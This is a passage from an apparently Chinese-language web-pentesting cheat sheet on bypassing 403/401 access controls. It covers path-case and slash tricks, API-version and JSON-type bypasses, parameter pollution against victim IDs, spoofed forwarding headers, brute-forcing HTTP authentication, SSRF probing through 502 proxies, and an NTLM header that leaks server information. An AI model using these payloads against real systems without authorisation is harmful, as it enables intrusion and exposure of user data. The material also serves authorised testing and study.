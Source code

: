 ```
site.com/secret –> HTTP 403 Forbidden
site.com/SECRET –> HTTP 200 OK
site.com/secret/ –> HTTP 200 OK
site.com/secret/. –> HTTP 200 OK
site.com//secret// –> HTTP 200 OK
site.com/./secret/.. –> HTTP 200 OK
site.com/secret.json –> HTTP 200 OK (ruby)
```

- 别的绕过

```
/v3/users_data/1234 --> 403 Forbidden 
/v1/users_data/1234 --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
{"user_id":"<legit_id>","user_id":"<victims_id>"} (JSON Parameter Pollution)
user_id=ATTACKER_ID&user_id=VICTIM_ID (Parameter Pollution)
```

- 到 https://archive.org/web/ ，检查是否过去有文件是可以公开访问的。
- Fuzz页面：尝试使用http代理headers，http authentiation basic 和 ntlm brute-force 和别的技术。进行如下测试：

```
X-Originating-IP: 127.0.0.1 
X-Forwarded-For: 127.0.0.1 
X-Remote-IP: 127.0.0.1 
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
If the path is protected you can try to bypass the path protection using these other headers:
X-Original-URL: /admin/console
X-Rewrite-URL: /admin/console
```

the tool [fuzzhttpbypass](https://github.com/carlospolop/fuzzhttpbypass)..

- 猜测密码
- 爆破，尝试爆破http basic，digest，NTLM auth


#### 502 proxy error
如果有页面返回有502 code，可能意味着一个错误配置的代理。如果你发送的请求类似于`GET https://ggg.com HTTP/1.1`，这个代理将尝试访问 ggg.com，你可能会发现一个SSRF漏洞。

#### NTLM 认证 - 信息泄露

如果服务器要求进行windows认证，或者你发现某个登录要求你输入口令和域名，你可以尝挖掘一些信息泄露。

发送下列请求头的请求：
`“Authorization: NTLM TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=”`

根据NTLM 认证机制，服务器将在响应头“WWW-Authenticate”中响应以内部信息，如IIS version，windows version等等。
